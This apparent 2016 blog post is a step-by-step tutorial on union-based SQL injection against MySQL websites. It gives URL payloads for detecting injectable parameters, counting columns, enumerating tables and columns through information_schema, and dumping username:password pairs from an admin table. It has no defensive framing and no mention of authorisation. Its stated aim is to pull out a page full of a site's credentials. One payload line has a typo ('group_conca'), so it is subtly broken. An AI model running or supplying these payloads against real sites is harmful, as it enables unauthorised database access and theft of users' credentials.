 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-29
title: Learn How To Hack Websites With Different Techniques
tags: SQL Injection, Hack
category: Hack
status: publish
-->

## SQL Injection in MySQL Databases ##

SQL Injection attacks are code injections that exploit the database layer of the application. This is most commonly the MySQL database, but there are techniques to carry out this attack in other databases such as Oracle. In this tutorial, i will be showing you the steps to carry out the attack on a MySQL Database.

![SQL Injection](http://i.imgur.com/E6N9NNf.jpg)


### 1. Find A Page Vulnerable###

When testing a website for SQL Injection vulnerabilities, you need to find a page that looks like this:

	www.site.com/page=1
	www.site.com/id=5

Basically, the site needs to have an = then a number or a string, but most commonly a number. Once you have found a page like this, we test for vulnerability by simply entering an ' after the number in the URL. For example:

	www.site.com/page=1'

If the database is vulnerable, the page will spit out a MySQL error such as:

	Warning: mysql_num_rows(): supplied argument is not a valid MySQL result 
			 resource in /home/wwwprof/public_html/readnews.php on line 29

If the page loads as normal then the database is not vulnerable, and the website is not vulnerable to SQL Injection.


### 2. Find The Number of Columns  ###

Now we need to find the number of union columns in the database. We do this using the `order by` command. We do this by entering `order by 1--`, `order by 2--` and so on until we receive a page error. For example:

    www.site.com/page=1 order by 1--
	http://www.site.com/page=1 order by 2--
	http://www.site.com/page=1 order by 3--
	http://www.site.com/page=1 order by 4--
	http://www.site.com/page=1 order by 5--

If we receive another MySQL error here, then that means we have 4 columns. If the site errored on `order by 9` then we would have 8 columns. If this does not work, instead of `--` after the number, change it with `/*`, as they are two difference prefixes and if one works the other tends not too. It just depends on the way the database is configured as to which prefix is used.

### 3. Find The Vulnerable Columns ###

We now are going to use the `union` command to find the vulnerable columns. So we enter after the URL, union all select (number of columns)--, for example:

	www.site.com/page=1 union all select 1,2,3,4--

This is what we would enter if we have 4 columns. If you have 7 columns you would put, `union all select 1,2,3,4,5,6,7--`. If this is done successfully the page should show a couple of numbers somewhere on the page. For example, 2 and 3. This means columns 2 and 3 are vulnerable.

### 4. Find The Database Version, Name and User ###

We now need to find the database version, name, and user. We do this by replacing the vulnerable column numbers with the following commands:

	user()
	database()
	version()

Or if these don't work try...

	@@user
	@@version
	@@database

For example the url would look like:

	www.site.com/page=1 union all select 1,user(),version(),4--

The resulting page would then show the database user and then the MySQL version. For example `admin@localhost and MySQL 5.0.83`.

**IMPORTANT:** If the version is 5 and above read on to carry out the attack, if it is 4 and below, you have to brute force or guess the table and column names, programs can be used to do this.

### 5. List All The Table Names ###

In this step, our aim is to list all the table names in the database. To do this we enter the following command after the URL.

	UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

So the url would look like:
	
	www.site.com/page=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

Remember the `table_name` goes in the vulnerable column number you found earlier. If this command is entered correctly, the page should show all the tables in the database, so look for tables that may contain useful information such as passwords, so look for admin tables or member or user tables.


### 6. List All The Column Names ###

In this Step we want to list all the column names in the database, to do this we use the following command:

	union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

This command makes the page spit out ALL the column names in the database. So again, look for interesting names such as user, email, and password.

### 7. Dump The Data ###

Finally, we need to dump the data, so say we want to get the `username` and `password` fields, from table "admin" we would use the following command:

	union all select 1,2,group_concat(username,0x3a,password),4 from admin--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_conca(username,0x3a,password),4 from admin--

Here the `concat` command matches up the username with the password so you don't have to guess, if this command is successful then you should be presented with a page full of usernames and passwords from the website
